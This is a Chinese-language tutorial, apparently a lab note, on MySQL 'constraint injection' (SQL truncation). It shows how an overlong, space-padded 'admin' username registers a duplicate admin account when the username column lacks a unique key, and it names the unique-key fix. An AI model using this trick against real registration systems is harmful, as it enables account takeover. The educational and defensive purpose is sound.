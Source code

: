 # ==SQL注入利用-约束注入==

**Mysql中的约束指：对字段的限制，常用约束 主键（primary key）、非空（not null）、默认（default）、唯一键（unique）、外键（foreign key）等。**



## 约束注入原理

**注入位置：基于约束注入适用于 注册功能的位置，实现效果：利用注入可以注册任意用户，导致可以适用任意用户登录系统。**

**当程序员或DBA在创建数据表过程中，没有对用户名称设置唯一键，并且设置了varchar(num)**





### 实验环境创建：

```sql
1.创建实验数据表
mysql> create table admin(
    #创建一个admin数据表
    -> id int primary key not null auto_increment,   #设置一个可以自动增长的id值
    -> username varchar(50) not null,    #设置一个最大为50字符的username
    -> password varchar(50) not null     #设置一个最大字符数为50的password  
    -> );
Query OK,0 rows affected(0.07 sec)


2.插入数据
 mysql> insert into admin values(0,'admin','123456');
 #在admin数据表中插入数据，顺序依次为id username password
 Query OK, 1 row affected (0.02sec)
 
 mysql> select * from admin;
```

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230905135014922.png" style="zoom:200%;" />

```sql
mysql> insert into admin values(0,'admin                                                           x','111111');
Query OK,1 row affected, 1 warning (0.01 sec)

3.查询数据 观察结果
mysql> select * from admin;
```

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230905135612119.png" alt="image-20230905135612119" style="zoom:200%;" />

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230905141426612.png" alt="image-20230905141426612" style="zoom:200%;" />

当用户插入的用户名长度大于varchar(50)个字符的时候，此时后边多余的字符都会被删掉

```sql
SQL语句设置于取消唯一键约束

取消唯一键 alert table admin drop unique username
#此时再进行约束注入使用insert into admin values(0,'admin                                             x','111111');此时这个语句就无法执行了

设置唯一键 alert table admin add unique (username)
```

  



## 约束注入实验

完成注册admin账号，并登录系统获取flag值

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230905142905804.png" alt="image-20230905142905804" style="zoom:200%;" />

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230905145309747.png" alt="image-20230905145309747" style="zoom:200%;" />

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230905145322320.png" alt="image-20230905145322320" style="zoom:200%;" />

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230905145345700.png" alt="image-20230905145345700" style="zoom:200%;" />

 <img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230905145405072.png" alt="image-20230905145405072" style="zoom:200%;" />

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230905145415293.png" alt="image-20230905145415293" style="zoom:200%;" />

**小结：**

**1.约束注入原理 - 字段是否设置unique约束**

**2.设置唯一键就可以防御，作为一名程序员，务必在需要唯一存在的位置 设置唯一键，都则会出现任意用户注册的内容。**